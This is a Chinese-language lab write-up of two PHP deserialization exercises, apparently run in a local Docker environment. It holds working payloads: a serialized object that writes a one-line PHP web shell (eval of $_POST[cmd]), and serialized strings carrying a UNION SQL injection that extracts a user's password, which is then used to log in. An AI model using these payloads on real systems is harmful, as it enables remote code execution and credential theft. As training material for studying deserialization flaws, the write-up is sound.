

# 反序列化漏洞1

### 代码分析：

1. **代码结构**：

   ```php
   require_once('../../header.php');
   ```

   这行代码引入了页面的头部部分，通常是 HTML 标题、头部资源（如 CSS、JS）等内容。

   ```php
   class a {
       var $test = 'hello';
       function __destruct(){
           $fp = fopen("/var/www/html/vuln/unserialize/01/hello.php", "w");
           fputs($fp, $this->test);
           fclose($fp);
       }
   }
   ```

   - 这里定义了一个类 `a`，它有一个属性 `$test`，默认为 `'hello'`。
   - 在类的析构方法 `__destruct()` 中，代码会将 `$test` 的值写入到 `/var/www/html/vuln/unserialize/01/hello.php` 文件中。
   - 当对象销毁时（即当脚本结束或对象被销毁时），`__destruct()` 方法会被调用，导致 `$test` 的值（'hello'）被写入文件。

   ```php
   $class = stripslashes($_GET['re']);
   $class_unser = unserialize($class);
   ```

   - 这里的代码从 GET 请求参数 `re` 中获取数据，并调用 `unserialize()` 函数对其进行反序列化操作。
   - `stripslashes()` 函数用来移除反斜杠，它通常用于防止 SQL 注入等攻击中的转义字符干扰。

   ```php
   require '/var/www/html/vuln/unserialize/01/hello.php';
   ```

   - `require` 会引入 `hello.php` 文件。这意味着如果文件 `hello.php` 被写入了恶意内容（如恶意 PHP 代码），它将被执行。
   - 由于反序列化漏洞，可以通过构造特定的输入，使得文件包含恶意代码，执行任意操作。
   
   进入docker里面的bash
   
   ```
   docker ps -a 找容器id
   docker exec -it bc23a49cb37c bash
   ```

这里查看到源码的路径是有问题的


修改源码


```
?re=O:1:"a":1:{s:4:"test";s:26:"<?php @eval($_POST[cmd])?>";}   尝试插入一句话
```

插入成功


连接成功


# 反序列化漏洞2

这段 PHP 代码存在反序列化漏洞，具体分析如下：

### 代码分析：

#### 1. 类定义：`WEB` 类

```php
class WEB {
    private $method;
    private $args;
    private $conn;

    public function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
        $this->__conn();
    }
```

`WEB` 类有三个私有属性：

- `$method`: 方法名
- `$args`: 方法的参数
- `$conn`: 数据库连接

构造函数 `__construct()` 会接受 `$method` 和 `$args`，并调用 `__conn()` 连接数据库。

#### 2. `__destruct()` 方法

```php
function __destruct() {
    $this->__conn();

    if (in_array($this->method, array("show", "login", "source"))) {
        @call_user_func_array(array($this, $this->method), $this->args);
    } else {
        $this->__die("What do you do?");
    }

    $this->__close();
}
```

`__destruct()` 方法在对象销毁时执行：

- 连接数据库（`__conn()`）。
- 根据 `$this->method` 调用相应的类方法，并传入 `$this->args` 作为参数（使用 `call_user_func_array()`）。
- 如果 `method` 不是 `show`, `login`, 或 `source`，会返回一个错误消息。
- 最后关闭数据库连接。

#### 3. `__wakeup()` 方法

```php
function __wakeup() {
    foreach($this->args as $k => $v) {
        $this->args[$k] = strtolower(trim(mysql_escape_string($v)));
    }
}
```

`__wakeup()` 方法在对象反序列化时调用，它会对 `$args` 数组中的每个元素进行 `strtolower()` 和 `mysql_escape_string()` 处理，这可以用来绕过某些字符的限制。

#### 4. 反序列化触发

```php
if(isset($_GET["data"])) {
    @unserialize($_GET["data"]);
} else {
    new WEB("source", array());
}
```

如果 `GET` 请求中包含 `data` 参数，它会调用 `unserialize()` 对其进行反序列化。这就意味着通过 `data` 参数，攻击者可以传递序列化数据，构造一个包含恶意代码的对象。

### 漏洞利用：


#### 1. **构造恶意数据**

攻击者需要构造一个恶意的序列化对象，该对象的 `method` 属性为 `login`，并且传递适当的参数以触发登录过程。

**恶意 payload**：

```php
?data=O:3:"WEB":2:{s:11:"%00WEB%00method";s:4:"show";s:9:"%00WEB%00args";a:1:{i:0;s:83:"ljn' union select password,password,password from users where username='orange' -- ";}}
```

### 

```
?data=O:3:"WEB":3:{s:11:"%00WEB%00method";s:4:"show";s:9:"%00WEB%00args";a:1:{i:0;s:83:"ljn' union select password,password,password from users where username='orange' -- ";}}
```


```
查到了orange的密码是  mall123mall
```

因为登录会对请求体反序列化，所以先对登录请求体序列化


```
?data=O:3:"WEB":2:{s:11:"%00WEB%00method";s:5:"login";s:9:"%00WEB%00args";a:2:{s:8:"username";s:7:"orÃnge";s:8:"password";s:11:"mall123mall";}}
```

